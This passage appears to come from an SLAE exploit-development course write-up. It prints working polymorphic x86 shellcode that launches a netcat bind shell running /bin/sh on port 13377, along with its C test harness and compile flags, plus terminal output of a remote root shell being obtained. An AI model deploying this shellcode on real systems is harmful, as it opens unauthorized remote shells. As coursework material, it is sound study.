 ```term
root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/3_shellcode# cat polymorphic.c 
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x9e\x90\xf5\x31\xc0\xf7\xe2\x50\x5a\x52\x58\x68\x33\x33\x37\x37\xfd\x68\x2d\x76\x70\x31\x89\xe2\x50\x68\x6e\x2f\x73\x68\xfd\x68\x65\x2f\x62\x69\x9e\x68\x2d\x6c\x76\x76\x89\xe1
\x50\x68\x2f\x2f\x6e\x63\xf5\x68\x2f\x2f\x2f\x2f\x47\x46\x68\x2f\x62\x69\x6e\x89\xe3\x50\xfc\x52\x51\x90\x53\x99\x89\xe1\x56\x5f\x57\x5e\x5d\xb0\x0b\xcd\x80";

main()
{

  printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```

#### EndGame #3

```term
root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/3_shellcode# gcc polymorphic.c -o polymorphic -fno-stack-protector -z execstack -w 
root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/3_shellcode# ./polymorphic 
Shellcode Length:  83
listening on [any] 13377 ...
192.168.100.139: inverse host lookup failed: Unknown host
connect to [192.168.100.200] from (UNKNOWN) [192.168.100.139] 54156

─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@whitecr0wz:~# rlwrap nc 192.168.100.200 13377 -v 
192.168.100.200: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.100.200] 13377 (?) open
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/3_shellcode# id 
id 
uid=0(root) gid=0(root) groups=0(root)
root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/3_shellcode#
```

Original Size: 62 bytes
Final Size: 83 bytes

Increment: 34%

### Code
